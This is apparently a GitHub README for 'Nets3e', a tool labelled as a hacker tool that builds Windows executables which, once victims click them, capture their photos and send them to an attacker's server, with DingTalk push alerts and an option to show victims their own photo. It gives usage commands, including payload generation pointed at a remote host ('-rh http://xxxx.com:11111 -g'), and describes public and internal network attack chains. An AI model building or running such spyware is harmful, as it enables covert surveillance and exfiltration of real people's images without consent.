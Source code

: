   <div align="center">
<p align="center">
 <img title="Nets3e" src='https://img.shields.io/badge/Nets3e-1.1.4-brightgreen.svg' />
 <img title="Nets3e" src='https://img.shields.io/badge/Python-3.9-yellow.svg' />
  <img title="Nets3e" src='https://img.shields.io/badge/HackerTool-x' />
 <img title="Nets3e" src='https://img.shields.io/static/v1?label=Author&message=@Martin&color=red'/>
 <img title="Nets3e" src='https://img.shields.io/badge/-windows-F16061?logo=windows&logoColor=000'/>
<img title="Nets3e" src='https://img.shields.io/badge/-Linux-F16061?logo=Linux&logoColor=000'/>
</p>
    
 [![Nets3e](https://res.cloudinary.com/marcomontalbano/image/upload/v1692868309/video_to_markdown/images/youtube--v0dYFhAVOCg-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://www.youtube.com/watch?v=v0dYFhAVOCg "Nets3e")

   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>Fixed the issue where the victim was unable to access the public IP address[NEW]</th>
    <th>Share data with DingTalk</th>
    <th>Selectively showing victims their own photos [NEW]</th>
</tr>
 
 </table>
</div>


  
## Nets3e Example

``pip install -i https://pypi.tuna.tsinghua.edu.cn/simple pycryptodome,Pillow``

``#python3 Nets3e.py -h``

![图片名称](./PT/help.png) 



```ps:Use '- g' to generate PAYLOAD, but you don't need to specify '- g'```

``#python3 Nets3e.py -rh http://xxxx.com:11111 -g``


![图片名称](./PT/1.png) 

``Follow the prompts in/ Generate two exe executable files from the dist directory``

![图片名称](./PT/2.png) 

_Nets3eClient_debug.exe -> The debug version of internal network attacks is mainly used to test whether internal network victims can reach the local machine_

_Nets3eClient_release.exe -> The release version of public network attacks is mainly used to attack public network users_

## Public network attack

``Victims click on Nets3eClient_release.exe``




![图片名称](./PT/out.png) 

``Attack Kill Chain``

![图片名称](./PT/Chain_Re.png) 

## Internal network attack

``Victims click on Nets3eClient_debug.exe``

``PS:Affected hosts on the internal network will first obtain their own public IP address and then send photos to the internal network host. In fact, the traffic is not forwarded by the server``



![图片名称](./PT/in.png) 

``Attack Kill Chain``

![图片名称](./PT/Chain_Debug.png) 


# Configure the API for victims to obtain public IP addresses, and configure nail push TOKEN and keys

![图片名称](./PT/config.png) 


## Push using (- dd) after configuration

``#python3 Nets3e.py -dd ``

![图片名称](./PT/dd1.png) 

```Victims click on the app```


![图片名称](./PT/getip.png) 

![图片名称](./PT/ip.png) 


## -echo The victim will see their own photo


![图片名称](./PT/echo.png) 
